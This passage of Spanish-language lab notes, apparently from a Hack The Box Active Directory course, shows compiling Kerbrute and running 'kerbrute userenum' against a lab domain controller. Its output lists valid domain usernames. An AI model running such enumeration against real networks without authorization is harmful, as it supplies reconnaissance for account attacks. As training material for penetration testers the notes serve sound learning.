 Para compilar todas las arquitecturas existentes contra las que podremos atacar (linux, windows, darwin, amd), usaremos sudo make all

```bash
sudo make all         
```

Nos creará un directorio llamado "dist" que contendrá
```bash
Polika4RM@htb[/htb]$ ls dist/

kerbrute_darwin_amd64  kerbrute_linux_386  kerbrute_linux_amd64  kerbrute_windows_386.exe  kerbrute_windows_amd64.exe
```

Testeamos que funcione: 
```shell-session
Polika4RM@htb[/htb]$ ./kerbrute_linux_amd64 
```

Y la añadimos al Path para tenerlo a mano siempre: 
```shell-session
Polika4RM@htb[/htb]$ sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```

## Enumerando usuarios con Kerbrute
Ejecutaremos:
```shell-session
Polika4RM@htb[/htb]$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

Y nos valida un conjunto de 56 usuarios:
```shell-session
Polika4RM@htb[/htb]$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users

2021/11/17 23:01:46 >  Using KDC(s):
2021/11/17 23:01:46 >   172.16.5.5:88
2021/11/17 23:01:46 >  [+] VALID USERNAME:       jjones@INLANEFREIGHT.LOCAL
2021/11/17 23:01:46 >  [+] VALID USERNAME:       sbrown@INLANEFREIGHT.LOCAL
2021/11/17 23:01:46 >  [+] VALID USERNAME:       tjohnson@INLANEFREIGHT.LOCAL
2021/11/17 23:01:50 >  [+] VALID USERNAME:       evalentin@INLANEFREIGHT.LOCAL

 <SNIP>
 
2021/11/17 23:01:51 >  [+] VALID USERNAME:       sgage@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       jshay@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       jhermann@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       whouse@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       emercer@INLANEFREIGHT.LOCAL
2021/11/17 23:01:52 >  [+] VALID USERNAME:       wshepherd@INLANEFREIGHT.LOCAL
2021/11/17 23:01:56 >  Done! Tested 48705 usernames (56 valid) in 9.940 seconds
```
